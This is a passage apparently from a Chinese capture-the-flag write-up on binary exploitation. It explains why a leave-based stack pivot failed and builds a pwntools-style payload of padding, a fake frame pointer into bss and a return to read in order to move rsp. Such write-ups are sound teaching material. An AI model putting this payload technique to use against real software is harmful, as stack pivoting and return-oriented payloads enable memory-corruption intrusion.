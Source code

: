 
回头看一下leave处 `mov esp,ebp; pop ebp;`​，应该是leave前0x60

1600未能放入rbp导致的

[![](assets/1701606597-3a56de29af806f518eada3b52cdd3dac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170249-eaa9dd1a-845e-1.png)

[![](assets/1701606597-b1861dd4b19a7ccaa10fb368b0691916.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170254-edb2df84-845e-1.png)

再构造一次read，并调整rsp

```plain
pl = b'a'*0x20+p64(bss6+0x20)+p64(read) #2
p.send(pl)
```

这里bss6所加的就是buf的偏移
